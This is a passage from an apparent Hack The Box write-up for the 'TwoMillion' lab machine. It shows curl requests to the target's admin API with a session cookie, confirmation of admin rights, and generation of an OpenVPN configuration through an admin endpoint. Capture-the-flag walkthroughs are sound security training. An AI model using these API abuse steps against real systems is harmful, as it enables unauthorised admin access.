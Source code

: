```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/TwoMillion]
└─$ curl 2million.htb/api/v1/admin/auth --cookie "PHPSESSID=taijcct7knkbskmph99spt0pb0" | jq 

{
  "message": true
}
```

This time instead of an error we get the value true back indicating that we are indeed an admin now.
## Foothold

Let's check out the `/admin/vpn/generate` now:

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/TwoMillion]
└─$ curl  -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=taijcct7knkbskmph99spt0pb0" -H "Content-Type: application/json" | jq  

{
  "status": "danger",
  "message": "Missing parameter: username"
}
```

 Let's attempt to input a random username:

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/TwoMillion]
└─$ curl  -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=taijcct7knkbskmph99spt0pb0" -H "Content-Type: application/json" --data '{"username":"test"}' | jq  

client
dev tun
proto udp
remote edge-eu-free-1.2million.htb 1337
resolv-retry infinite
nobind
persist-key
persist-tun
remote-cert-tls server
comp-lzo
verb 3
data-ciphers-fallback AES-128-CBC
data-ciphers AES-256-CBC:AES-256-CFB:AES-256-CFB1:AES-256-CFB8:AES-256-OFB:AES-256-GCM
tls-cipher "DEFAULT:@SECLEVEL=0"
auth SHA256
key-direction 1
<ca>
-----BEGIN CERTIFICATE-----
<SNIP>
```
